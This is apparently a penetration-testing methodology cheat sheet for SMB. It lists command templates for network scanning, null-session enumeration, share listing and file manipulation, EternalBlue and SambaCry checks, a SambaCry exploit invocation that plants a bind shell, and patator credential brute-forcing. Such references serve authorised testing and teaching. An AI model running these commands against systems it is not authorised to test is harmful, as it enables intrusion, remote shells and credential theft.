 # SMB - Methodology

### Network scan

Nmap and nbtscan can be used to scan the network for SMB services:

```
nmap -v -p 139,445 -oA nmap_smb <RANGE/CIDR>
nbtscan -r <RANGE>
```

### Basic recon

The Nmap *smb-os-discovery.nse* script attempts to determine the operating
system, computer name, domain, workgroup, and current time over the SMB
protocol.

```
nmap --script smb-os-discovery.nse -p 445 <IP>
nmap -sU -sS --script smb-os-discovery.nse -p U:137,T:139 <IP>
```

### Null session

A null session refers to an unauthenticated NetBIOS session.  
A null session allows unauthenticated access to the shared files as well as a
large amounts of information about the machine, such as password policies,
usernames, group names, machine names, user and host SIDs.  
This Microsoft feature existed in SMB1 by default and was later restricted in
subsequent versions of SMB.  

To detect and retrieve information about the machine through a null session,
the enum4linux Perl script can be used:

```
enum4linux <TARGET>
```

Combine network scan and null session enumeration:

```
nbtscan -s ' ' <RANGE> | cut -d ' ' -f 1 | while read -r line ; do
  enum4linux $line > enum4linux_$line.txt
done
```

### List accessible shares

List the shares available on the server from Linux using smbclient.  
If no credentials are provided, a null session will be attempted.

```
smbmap [-d DOMAIN] [-u USERNAME] [-p PASSWORD/HASH] -L (-H HOST | --host-file FILE)  

smbclient -L <HOST>
smbclient -U <USER> -L <HOST>

nmap --script smb-enum-shares.nse -p 445 <HOST>
nmap -sU -sS --script smb-enum-shares.nse -p U:137,T:139 <HOST>
```

### Search files

List the shares available on the server from Linux using smbclient.  
If no credentials are provided, a null session will be attempted.

```
smbmap [-d DOMAIN] [-u USERNAME] [-p PASSWORD/HASH] -F <PATTERN> (-H HOST | --host-file FILE)  

smbclient \\\\<HOST>\\<SHARE> -U <USER>
```

Smbmap can be used to download, upload or delete a file:

```
smbmap [-d DOMAIN] [-u USERNAME] [-p PASSWORD/HASH] --download/--upload/--delete <PATH> (-H HOST | --host-file FILE)  
```

The share may also be mounted using the Linux mount utility tool:

```
mount -t cifs -o username=<USER> //<HOST>//<SHARE> /mnt/<FOLDER>
mount -t cifs -o username=<USER>,password=<PASSWORD> //<HOST>//<SHARE> /mnt/<FOLDER>
```

### Check for known vulnerabilities

Nmap command can be used to check for the following exploits:

```
smb-vuln-ms08-067
smb-vuln-ms10-054
smb-vuln-ms10-061
smb-vuln-ms17-010 / cve-2017-7494
smb-vuln-regsvc-dos

nmap -v -p 139,445 --script=vuln <TARGET>
```

### EternalBlue & SambaCry

The Nmap *smb-vuln-ms17-010.nse* and *smb-vuln-cve-2017-7494* scripts attempt
to detect if a SMBv1 server is vulnerable to the remote code execution
vulnerability MS17-010, a.k.a. EternalBlue (vulnerability exploited by WannaCry
and Petya ransomware) or CVE-2017-7494 aka SambaCry.

```
# EternalBlue
nmap --script smb-vuln-ms17-010.nse -p 445 <IP>

# SambaCry
nmap --script smb-vuln-cve-2017-7494 -p 445 <IP>
nmap --script smb-vuln-cve-2017-7494 --script-args smb-vuln-cve-2017-7494.check-version -p445 <IP>
```

If no share is available to unauthenticated users, the server may still be
vulnerable for authenticated users, meaning finding credentials would lead to
RCE.  
The following versions are vulnerable:

```
# EternalBlue
https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010

# SambaCry
Samba 3.x after 3.5.0 and 4.x before 4.4.14, 4.5.x before 4.5.10, and 4.6.x before 4.6.4
```

The following exploit may be used to achieve RCE through the SambaCry
vulnerability:

```
# Source
https://github.com/opsxcq/exploit-CVE-2017-7494

# Usage
exploit.py [-h] -t <TARGET> -e <EXECUTABLE> -s <REMOTESHARE> -r <REMOTEPATH> [-u <USER>] [-p <PASSWORD>] [-P <REMOTESHELLPORT>]

# The libbindshell-samba.so of the repository can be used to get a bind shell on the server :
# -e libbindshell-samba.so -r <SHARE>/libbindshell-samba.so
```

### Authentication brute force

The patator tool can be used to brute force credentials on the service:

```
patator smb_login host=<IP> user=FILE0 password=FILE1 0=<wordlist_user> 1=<wordlist_password> -x ignore:mesg='NT_STATUS_LOGON_FAILURE'
```
